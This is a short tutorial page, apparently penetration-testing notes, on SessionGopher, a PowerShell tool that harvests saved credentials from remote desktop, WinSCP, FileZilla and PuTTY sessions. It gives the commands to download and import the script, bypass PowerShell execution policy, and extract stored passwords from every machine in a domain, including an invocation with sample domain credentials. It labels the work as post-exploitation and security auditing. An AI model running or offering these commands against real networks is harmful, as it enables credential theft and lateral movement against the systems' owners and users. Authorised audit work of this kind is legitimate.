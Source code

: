 ### What is SessionGopher?

**SessionGopher** is a powershell script designed to extract **saved credentials**  from remote desktop, WinSCP, FileZilla, PuTTY, and other application. It is primarily used for **post-exploitaion** and **security auditing** to identify stored password in various services.

[SessionFopher Github Repo](https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1)

---

### Download and Running Session

```powershell
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1" -OutFile ".\SessionGopher.ps1"
```

#### import the Module

```powershell
Import-Module .\SessionGopher.ps1
```

If execution policies block script execution bypass them using:

```powershell
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
```
OR

```powershell
powershell -nop -ep bypass
```
---

### Extracting Passwords from Service

#### 1. Extract Credentials from All Machines in the Domain

```powershell
Invoke-SessionGopher -AllDomain -o
```

The ``-o`` Flag outputs the results to a file

#### 2. Extract Credentials Using specific Domain Credentials

if authentication is required, specify the username and password

```powershell
Invoke-SessionGopher -AllDomain -u domain.com\DevNull -p Secret@123
```

